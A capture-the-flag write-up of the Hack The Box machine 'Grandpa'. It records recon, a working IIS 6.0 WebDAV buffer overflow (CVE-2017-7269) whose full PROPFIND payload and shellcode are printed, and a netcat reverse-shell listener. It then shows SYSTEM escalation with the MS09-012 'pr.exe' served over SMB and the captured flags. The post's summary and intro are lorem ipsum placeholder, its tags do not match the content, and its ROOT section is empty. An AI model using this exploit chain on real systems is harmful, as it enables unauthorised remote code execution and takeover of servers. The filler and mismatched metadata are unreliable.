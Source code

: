 ```yaml
---
layout: single
title: Grandpa - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-26
classes: wide
header:
  teaser: /assets/images/htb-writeup-grandpa/grandpa_logo.png
  teaser_home_page: true
  icon: /assets/images/windows.png
categories:
  - hackthebox
  - infosec
tags:  
  - windows
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-grandpa/grandpa_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:/git/htb/grandpa]# nmap -Pn -n -sCV 10.10.10.14 --open                                                                      (master✱)
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Microsoft IIS httpd 6.0
    | http-methods:
    |_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
    |_http-server-header: Microsoft-IIS/6.0
    |_http-title: Under Construction
    | http-webdav-scan:
    |   Server Type: Microsoft-IIS/6.0
    |   WebDAV type: Unknown
    |   Server Date: Wed, 03 Mar 2021 10:09:58 GMT
    |   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
    |_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

  DIRB:
  + http://10.10.10.14/_private (CODE:403|SIZE:1529)
  ==> DIRECTORY: http://10.10.10.14/_vti_bin/
  ==> DIRECTORY: http://10.10.10.14/images/

  NIKTO:
  + Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
  + Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV


2. WebDAV is open and the webserver is running IIS 6.0. Lets run davtest to see if we can upload any files.

    [root:/git/htb/grandpa]# davtest -url http://10.10.10.14/                                                                         (master✱)
      ********************************************************
       Testing DAV connection
      OPEN		SUCCEED:		http://10.10.10.14
      ********************************************************
      NOTE	Random string for this session: OXxuoxrUU
      ********************************************************
       Creating directory
      MKCOL		FAIL
      ********************************************************
       Sending test files
      PUT	cfm	FAIL
      PUT	pl	FAIL
      PUT	php	FAIL
      PUT	txt	FAIL
      PUT	html	FAIL
      PUT	cgi	FAIL
      PUT	asp	FAIL
      PUT	shtml	FAIL
      PUT	jhtml	FAIL
      PUT	jsp	FAIL
      PUT	aspx	FAIL

      *************************


3. Look for IIS 6.0 exploits.

  [root:/git/htb/grandpa]# searchsploit iis 6.0                                                                                     (master✱)
    ----------------------------------------------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                                                             |  Path
    ----------------------------------------------------------------------------------------------------------- ---------------------------------
    --- snip ---
    Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow                                   | windows/remote/41738.py

  Trying the exploit gives nothing. Continue to google for IIS 6.0 reverse and I find a script that looks promising, run it.

  [root:/git/htb/grandpa]# python iis6_rev.py 10.10.10.14 80 10.10.14.8 4488                                                        (master✱)
    PROPFIND / HTTP/1.1
    Host: localhost
    Content-Length: 1744
    If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾￿￿Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>

  [root:/git/htb/grandpa]# rlwrap nc -lvnp 4488                                                                                     (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.14] 1031
    Microsoft Windows [Version 5.2.3790]
    (C) Copyright 1985-2003 Microsoft Corp.

    c:\windows\system32\inetsrv> whoami
      nt authority\network service


4. We are unable to read both user and root. Lets try the same exploit as Granny, MS09-012:

    [root:/srv/pub-share]# cp /opt/windows-kernel-exploits/MS09-012/pr.exe .
    [root:/srv/pub-share]# chmod +x pr.exe
    [root:/srv/pub-share]# smbserver.py share .


    C:\Documents and Settings> //10.10.14.8/share/pr.exe "whoami"
      /xxoo/-->Build&&Change By p
      /xxoo/-->This exploit gives you a Local System shell
      /xxoo/-->Got WMI process Pid: 1828
      begin to try
      /xxoo/-->Found token SYSTEM
      /xxoo/-->Command:whoami
      nt authority\system

    C:\Documents and Settings> //10.10.14.8/share/pr.exe "type Harry\Desktop\user.txt"
      /xxoo/-->Build&&Change By p
      /xxoo/-->This exploit gives you a Local System shell
      /xxoo/-->Got WMI process Pid: 1828
      begin to try
      /xxoo/-->Found token SYSTEM
      /xxoo/-->Command:type Harry\Desktop\user.txt
      bdff5ec67c3cff017f2bedc146a5d869

    C:\Documents and Settings> //10.10.14.8/share/pr.exe "type Administrator\Desktop\root.txt"
      /xxoo/-->Build&&Change By p
      /xxoo/-->This exploit gives you a Local System shell
      /xxoo/-->Got WMI process Pid: 1828
      begin to try
      /xxoo/-->Found token SYSTEM
      /xxoo/-->Command:type Administrator\Desktop\root.txt
      9359e905a2c35f861f6a57cecf28bb7b



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1.


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

IIS 6.0 Reverse Shell:
  https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
